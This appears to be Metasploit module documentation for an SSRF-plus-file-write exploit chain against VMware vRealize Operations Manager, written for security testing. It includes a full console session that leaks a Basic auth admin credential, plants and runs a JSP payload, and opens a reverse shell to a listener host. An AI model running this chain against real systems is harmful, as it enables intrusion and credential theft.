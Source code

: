 ## Vulnerable Application

### Description

This module exploits a pre-auth SSRF ([CVE-2021-21975]) and post-auth
file write ([CVE-2021-21983]) in VMware vRealize Operations Manager to
leak admin creds and write/execute a JSP payload.

CVE-2021-21975 affects the `/casa/nodes/thumbprints` endpoint, and
CVE-2021-21983 affects the `/casa/private/config/slice/ha/certificate`
endpoint. Code execution occurs as the `admin` Unix user.

The following vRealize Operations Manager versions are vulnerable:

* 7.0.0
* 7.5.0
* 8.0.0, 8.0.1
* 8.1.0, 8.1.1
* 8.2.0
* 8.3.0

Version 8.3.0 is not exploitable for creds and is therefore not
supported by this module. Tested against 8.0.1.

[CVE-2021-21975]: https://nvd.nist.gov/vuln/detail/CVE-2021-21975
[CVE-2021-21983]: https://nvd.nist.gov/vuln/detail/CVE-2021-21983

### Setup

Import an exploitable vRealize Operations Manager OVA, such as
[vRealize-Operations-Manager-Appliance-8.0.1.15331180_OVF10.ova], into
your desired hypervisor. Boot the virtual appliance, and it should be
exploitable out of the box once it's up.

[vRealize-Operations-Manager-Appliance-8.0.1.15331180_OVF10.ova]:
https://my.vmware.com/web/vmware/downloads/details?downloadGroup=VROPS-801&productId=940&rPId=40733

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`vRealize Operations Manager < 8.3.0`

## Scenarios

### vRealize Operations Manager 8.0.1

```
msf6 > use exploit/linux/http/vmware_vrops_mgr_ssrf_rce
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > options

Module options (exploit/linux/http/vmware_vrops_mgr_ssrf_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8443             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   vRealize Operations Manager < 8.3.0


msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > set rhosts 192.168.123.185
rhosts => 192.168.123.185
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Starting SSRF server...
[*] Using URL: https://0.0.0.0:8443/XtwOOPWn9SJ7
[*] Local IP: https://192.168.1.65:8443/XtwOOPWn9SJ7
[*] Executing automatic check (disable AutoCheck to override)
[*] Leaking admin creds via SSRF...
[*] 192.168.123.1:8443/XtwOOPWn9SJ7#
[*] 192.168.123.185 connected to SSRF server!
GET /XtwOOPWn9SJ7 HTTP/1.1
Accept: application/xml, application/json
Content-Type: application/json
Accept-Charset: big5, big5-hkscs, cesu-8, euc-jp, euc-kr, gb18030, gb2312, gbk, ibm-thai, ibm00858, ibm01140, ibm01141, ibm01142, ibm01143, ibm01144, ibm01145, ibm01146, ibm01147, ibm01148, ibm01149, ibm037, ibm1026, ibm1047, ibm273, ibm277, ibm278, ibm280, ibm284, ibm285, ibm290, ibm297, ibm420, ibm424, ibm437, ibm500, ibm775, ibm850, ibm852, ibm855, ibm857, ibm860, ibm861, ibm862, ibm863, ibm864, ibm865, ibm866, ibm868, ibm869, ibm870, ibm871, ibm918, iso-2022-cn, iso-2022-jp, iso-2022-jp-2, iso-2022-kr, iso-8859-1, iso-8859-13, iso-8859-15, iso-8859-2, iso-8859-3, iso-8859-4, iso-8859-5, iso-8859-6, iso-8859-7, iso-8859-8, iso-8859-9, jis_x0201, jis_x0212-1990, koi8-r, koi8-u, shift_jis, tis-620, us-ascii, utf-16, utf-16be, utf-16le, utf-32, utf-32be, utf-32le, utf-8, windows-1250, windows-1251, windows-1252, windows-1253, windows-1254, windows-1255, windows-1256, windows-1257, windows-1258, windows-31j, x-big5-hkscs-2001, x-big5-solaris, x-compound_text, x-euc-jp-linux, x-euc-tw, x-eucjp-open, x-ibm1006, x-ibm1025, x-ibm1046, x-ibm1097, x-ibm1098, x-ibm1112, x-ibm1122, x-ibm1123, x-ibm1124, x-ibm1166, x-ibm1364, x-ibm1381, x-ibm1383, x-ibm300, x-ibm33722, x-ibm737, x-ibm833, x-ibm834, x-ibm856, x-ibm874, x-ibm875, x-ibm921, x-ibm922, x-ibm930, x-ibm933, x-ibm935, x-ibm937, x-ibm939, x-ibm942, x-ibm942c, x-ibm943, x-ibm943c, x-ibm948, x-ibm949, x-ibm949c, x-ibm950, x-ibm964, x-ibm970, x-iscii91, x-iso-2022-cn-cns, x-iso-2022-cn-gb, x-iso-8859-11, x-jis0208, x-jisautodetect, x-johab, x-macarabic, x-maccentraleurope, x-maccroatian, x-maccyrillic, x-macdingbat, x-macgreek, x-machebrew, x-maciceland, x-macroman, x-macromania, x-macsymbol, x-macthai, x-macturkish, x-macukraine, x-ms932_0213, x-ms950-hkscs, x-ms950-hkscs-xp, x-mswin-936, x-pck, x-sjis_0213, x-utf-16le-bom, x-utf-32be-bom, x-utf-32le-bom, x-windows-50220, x-windows-50221, x-windows-874, x-windows-949, x-windows-950, x-windows-iso2022jp
X-VSCM-Request-Id: S30000FM
Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjpLWGp3ZWlmZlBIMGNlM3o5RENRb2o3V1I=
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_212
Host: 192.168.123.1:8443
Connection: keep-alive


[+] Successfully leaked admin creds
[*] Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjpLWGp3ZWlmZlBIMGNlM3o5RENRb2o3V1I=
[+] The target is vulnerable.
[*] Writing JSP payload
[*] /usr/lib/vmware-casa/casa-webapp/webapps/casa/0DlEVqGWYr.jsp
[+] Successfully wrote JSP payload
[*] Executing JSP payload
[*] https://192.168.123.185/casa/0DlEVqGWYr.jsp
[+] Successfully executed JSP payload
[+] Deleted /usr/lib/vmware-casa/casa-webapp/webapps/casa/0DlEVqGWYr.jsp
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.185:59260) at 2021-04-11 12:19:21 -0500
[*] Server stopped.

id
uid=1000(admin) gid=1003(admin) groups=1003(admin),0(root),25(apache),28(wheel)
uname -a
Linux vRealizeClusterNode 4.19.69-1.ph3 #1-photon SMP Fri Sep 6 00:00:41 UTC 2019 x86_64 GNU/Linux
```
